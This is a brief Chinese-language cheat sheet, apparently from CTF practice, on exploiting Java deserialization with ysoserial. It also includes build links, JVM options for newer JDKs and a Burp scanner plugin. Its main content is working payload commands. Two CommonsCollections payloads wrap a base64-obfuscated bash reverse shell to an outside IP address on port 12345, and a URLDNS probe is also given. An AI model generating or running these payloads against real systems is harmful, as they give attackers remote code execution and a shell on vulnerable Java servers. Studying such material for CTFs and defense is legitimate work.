

[Java反序列化基础篇-01-反序列化概念与利用 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/333697.html)

ysoerial使用
[【转载】ysoserial反序列化工具打包jar文件流程_ysoserial生成jar_明月清风~~的博客-CSDN博客](https://blog.csdn.net/qq_50854790/article/details/123854611)
[ysoserial 编译打包 - 小直789 - 博客园 (cnblogs.com)](https://www.cnblogs.com/xiaozhi789/p/15744050.html#:~:text=ysoserial%E5%9C%B0%E5%9D%80%EF%BC%9A%20https%3A%2F%2Fgithub.com%2Ffrohoff%2Fysoserial%20%E8%BF%87%E7%A8%8B%3A%201.%E8%BF%99%E5%9B%9B%E4%B8%AA%E6%A1%86%E4%B8%80%E5%AE%9A%E8%A6%81%E9%80%89%E4%B8%8A%2C%E7%84%B6%E5%90%8Ereimport%20%E6%B2%A1%E6%9C%89%E6%8A%A5%E9%94%99%E5%B0%B1%E6%88%90%E5%8A%9F%E4%BA%86%202.%E8%B7%AF%E5%BE%84%E4%B8%80%E5%AE%9A%E4%B8%8D%E8%A6%81%E6%9C%89%E4%B8%AD%E6%96%87%E5%90%A6%E5%88%99%E4%BC%9A%E6%8A%A5%E9%94%99%EF%BC%8C%E8%BF%9B%E5%85%A5%E6%9C%89pom.xml,%E6%96%87%E4%BB%B6%E4%B8%8B%20%E4%BD%BF%E7%94%A8cmd%E5%91%BD%E4%BB%A4%20mvn%20clean%20package%20-DskipTests%20%E5%91%BD%E4%BB%A4%E8%BF%9B%E8%A1%8C%E7%BC%96%E8%AF%91%E5%B0%B1%E5%A5%BD%E4%BA%86%EF%BC%8C%E5%9C%A8target%E4%B8%8B%E5%8F%AF%E6%89%BE%E5%88%B0%E5%B0%B1%E6%88%90%E5%8A%9F%E4%BA%86)



需要勾选Profiles全部

**建议直接下载jar包**

```
URLDNS

java -jar ysoserial.jar URLDNS "题目地址"|base64 -w 0
```


```
cc链

java -jar ysoserial.jar CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEzMC4yMC4yNTQvMTIzNDUgMD4mMQ==}|{base64,-d}|{bash,-i}"|base64 -w 0
```

## 高版本运行

解决方法：(针对于Idea2021.3.3版本)
Run—>EditConfigurations…—>Modify options—>Add VM options—>JVM options
在JVM options 内添加下面指令：

```
--add-opens java.base/java.lang=ALL-UNNAMED
--add-opens java.base/java.util=ALL-UNNAMED
--add-opens java.base/java.nio=ALL-UNNAMED
--add-opens java.base/sun.nio.ch=ALL-UNNAMED

根据报错情况选择
java -jar --add-opens java.base/java.lang=ALL-UNNAMED ysoserial-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvOC4xMzAuMjAuMjU0LzEyMzQ1IDwmMSc=}|{base64,-d}|{bash,-i}" |base64 -w 0
```


## BP插件

#### Java Deserialization Scanner

https://github.com/federicodotta/Java-Deserialization-Scanner

可以直接在app store下载，需要先配置ysoserial.jar包


抓包后发送到Java Deserialization Scanner即可，有四种模式：

 DNS（依赖于burpsuite的Collaborator功能来获取响应）, Sleep （如果有漏洞让服务器sleep 几秒钟）， 还有 cpu模式

